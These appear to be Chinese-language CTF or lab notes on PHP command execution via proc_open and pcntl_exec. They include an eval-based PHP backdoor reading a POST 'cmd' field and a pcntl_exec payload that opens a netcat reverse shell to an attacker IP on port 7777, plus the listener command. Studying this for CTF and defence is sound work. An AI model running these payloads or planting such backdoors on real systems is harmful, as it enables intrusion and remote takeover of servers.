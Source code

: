 ### proc_open

```php
proc_open($command, $descriptor_spec, $pipes, $cwd, $env_vars, $options)

descriptor_spec参数：定义数组内容

pipes参数：调用数组内容
```

### pcntl_exec

```php
需要单独加载组件

pcntl_exec(string $path, array $args = ?,array $envs = ?)

参数path必须是可执行二进制文件路径或一个在文件第一行指定了一个可执行文件路径表头的脚本（比如文件第一行是#!/usr/local/bin/perl的perl脚本）

参数args是一个要传递给程序的参数的字符串数组

参数envs是一个要传递给程序作为环境变量的字符串数组

#/bin/bash -c /bin/ls
path       args

info信息:没有禁用pcntl_exec函数
pcntl_exec函数没有回显
解决方法一:cat文件并输出到有权限读取路径
解决方法二:shell反弹

ini_set('open_basedir','/www/admin/localhost_81/wwwroot/class02' . $dir);
error_reporting(0);
if(isset($_POST['cmd'])){
    $cmd = $_POST['cmd'];
    if($cmd){
        eval($cmd);
    }
    else{
        echo "给你留个后门又能怎样？能拿到我根目录下的flag么？"
    }
}

POST提交
cmd=pcntl_exec("/bin/bash",array("-c","nc 192.168.88.141 7777 -e /bin/bash"));
参数path:"/bin/bash"
参数args:以数组形式包裹起来
-c执行二进制文件
nc反弹tcp连接到kail,kail监听端口:nc -lvp 7777
-e /bin/bash返回命令行交互界面
```

